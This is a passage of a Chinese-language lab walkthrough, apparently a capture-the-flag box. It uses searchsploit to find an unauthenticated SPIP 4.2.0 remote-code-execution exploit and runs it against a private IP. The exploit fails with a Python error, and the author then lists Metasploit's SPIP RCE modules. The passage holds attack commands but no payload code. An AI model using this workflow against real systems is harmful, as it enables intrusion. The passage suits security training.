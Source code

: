 使用 `searchsploit` 查找相关的漏洞利用脚本：

```bash
┌──(kali㉿kali)-[~/test]
└─$ searchsploit SPIP 4.2.0                                                                                  
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
SPIP v4.2.0 - Remote Code Execution (Unauthenticated)                                                | php/webapps/51536.py
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                      
```

找到一个远程代码执行漏洞 (`SPIP v4.2.0 - Remote Code Execution (Unauthenticated)`),利用一下

```bash
┌──(kali㉿kali)-[~/test]
└─$ python3 51536.py 
usage: 51536.py [-h] -u URL -c COMMAND [-v]
51536.py: error: the following arguments are required: -u/--url, -c/--command
                                                                                                                                 
┌──(kali㉿kali)-[~/test]
└─$ python3 51536.py -u http://192.168.205.211/spip/ -c id
Traceback (most recent call last):
  File "/home/kali/test/51536.py", line 63, in <module>
    requests.packages.urllib3.util.ssl_.DEFAULT_CIPHERS += ':HIGH:!DH:!aNULL'
    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
AttributeError: module 'urllib3.util.ssl_' has no attribute 'DEFAULT_CIPHERS'
```

报错，换 Metasploit 利用该漏洞：

```bash
msfconsole
msf6 > search SPIP 4.2

Matching Modules
================

   #   Name                                             Disclosure Date  Rank       Check  Description
   -   ----                                             ---------------  ----       -----  -----------
   0   exploit/multi/http/spip_bigup_unauth_rce         2024-09-06       excellent  Yes    SPIP BigUp Plugin Unauthenticated RCE
   1     \_ target: PHP In-Memory                       .                .          .      .
   2     \_ target: Unix/Linux Command Shell            .                .          .      .
   3     \_ target: Windows Command Shell               .                .          .      .
   4   exploit/multi/http/spip_porte_plume_previsu_rce  2024-08-16       excellent  Yes    SPIP Unauthenticated RCE via porte_plume Plugin
   5     \_ target: PHP In-Memory                       .                .          .      .
   6     \_ target: Unix/Linux Command Shell            .                .          .      .
   7     \_ target: Windows Command Shell               .                .          .      .
   8   exploit/multi/http/spip_rce_form                 2023-02-27       excellent  Yes    SPIP form PHP Injection
   9     \_ target: PHP In-Memory                       .                .          .      .
   10    \_ target: Unix/Linux Command Shell            .                .          .      .
   11    \_ target: Windows Command Shell               .                .          .      .


```